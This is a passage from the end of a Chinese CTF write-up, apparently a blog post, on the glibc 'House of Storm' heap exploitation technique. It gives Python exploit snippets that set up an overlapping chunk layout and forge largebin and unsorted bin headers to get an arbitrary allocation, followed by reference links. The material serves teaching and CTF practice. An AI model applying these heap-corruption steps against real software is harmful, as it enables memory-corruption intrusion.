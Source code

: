 ```python
p.interactive()
```
## 改进
为了避免这个坑我改进了我一般构造`shrink`的方法
```python
add(0x400)#0
add(0x88)#1
add(0x18)#2
free(0)
add(0x18)#0
edit(0x18,"A"*0x18)
add(0x88)#3
add(0x88)#4
free(3)
free(1)
```
# STORM 总结
* libc版本有要求.目前不清楚反正最新的不行<=2.24是可以的主要看链入时有没有检查
* 可以控制unsorted chunk:size,bk
* 可以控制largechunk:size bk bk_nextsize
过程
```python
aim=0xdeadbeef0000
bk=aim-0x20+8
bk_nextsize=aim-0x20-0x18-5
edit(4,p64(0x4a1)+p64(0)+p64(bk)+p64(0)+p64(bk_nextsize))#edit the head of LARGECHUNK
edit(5,p64(0)+p64(0x4b1)+p64(0)+p64(aim-0x20))#edit the head & bk of UNSORTEDCHUNK
add(0x48)
```


[1]:https://paper.seebug.org/255/#5-last_remainder
[2]:https://n132.github.io/2019/04/11/Off-by-one/
[3]:https://github.com/n132/Watermalon/tree/master/westlake/Storm_note
[4]:https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#__libc_calloc
[5]:https://veritas501.space/2018/04/11/Largebin%20%E5%AD%A6%E4%B9%A0/
[6]:http://eternalsakura13.com/2018/04/03/heapstorm2/
[7]:https://genowang.github.io/2019/04/08/%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91-SwampCTF-Pwn/#Storm-note
[8]:https://github.com/n132/Watermalon/tree/master/0ctf_2018/heapstorm